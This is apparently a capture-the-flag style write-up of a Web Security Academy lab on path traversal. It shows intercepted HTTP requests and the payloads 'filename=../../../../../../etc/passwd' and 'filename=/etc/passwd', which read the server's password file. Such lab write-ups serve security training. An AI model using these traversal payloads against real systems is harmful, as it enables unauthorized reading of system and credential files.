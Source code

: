 
---

- **Author:** sonyahack1
- **Date:** 01.05.2025

---

## Intercepting the request 

```html

GET /product?productId=1 HTTP/2
Host: 0aa500ee04d9cde1849865c50027001e.web-security-academy.net
Cookie: session=********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa500ee04d9cde1849865c50027001e.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```
> vulnerability contains with the display of product **images**

> change request to **image**

```html

GET /image HTTP/2

```

> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"

```

> if i try to get the passwd file with **Relative Path Traversal** i get an error **'No such file'**

```html

GET /image?filename=../../../../../../etc/passwd

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> This happens because the server filters relative paths. Trying to use **' ../ '** will be blocked or truncated.
> But the server may allow the use of an absolute path from the root of the system.

> send the request with **'Absolute Path Traversal'**

```html

GET /image?filename=/etc/passwd

```

> Response:

![passwd_file](./screenshots/passwd_file.png)

> Lab solved:

![lab_solved](./screenshots/lab_solved.png)

